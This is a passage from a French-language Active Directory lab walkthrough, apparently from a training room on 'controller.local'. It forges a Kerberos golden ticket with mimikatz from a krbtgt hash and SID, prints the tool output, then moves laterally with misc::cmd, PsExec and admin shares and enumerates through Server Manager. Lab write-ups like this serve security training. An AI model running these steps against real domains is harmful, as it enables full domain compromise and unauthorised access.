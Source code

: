 Pour cette attaque, on doit récupérer le domain : `S-1-5-21-849420856-2351964222-986696166`
L'user : `krbtgt`
Le NTLM primaire : `5508500012cc005cf7082a9a89ebdfdf`

### Create the Golden Ticket

On se crée un golden ticket avec `kerberos::golden /user: /domain: /sid: /krbtgt: /id:` :

```sh
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500 
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 8/17/2020 7:16:44 AM ; 8/15/2030 7:16:44 AM ; 8/15/2030 7:16:44 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

### Use the Golden Ticket to access other machine

La commande `misc::cmd` va ouvrir un shell sur toutes les machines :

```sh
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF690C543B8
```

On pourra alors accéder aux machines en se `ssh` à nouveau sur Administrator, et en choisissant l'une des deux commandes suivantes : `dir \\Desktop-1\c$` ou `PsExec.exe \\Desktop-1 cmd.exe`.

## Enumeration with Server Manager

Comme les serveurs ne sont presque jamais connectés, à moins que ce ne soit pour des raisons de maintenance, cela vous offre un moyen facile de les dénombrer en utilisant uniquement les fonctions intégrées de Windows telles que le gestionnaire de serveur. Si vous disposez déjà d'un administrateur de domaine, vous avez de nombreux accès au gestionnaire de serveur afin de modifier les trusts, d'ajouter ou de supprimer des utilisateurs, d'examiner des groupes, cela peut être un point d'entrée pour trouver d'autres utilisateurs ayant d'autres informations sensibles sur leurs machines ou trouver d'autres utilisateurs sur le réseau de domaine ayant accès à d'autres réseaux afin de basculer vers un autre réseau et de poursuivre vos tests.

La seule façon d'accéder au gestionnaire du serveur est d'entrer en `rdp` dans le serveur .
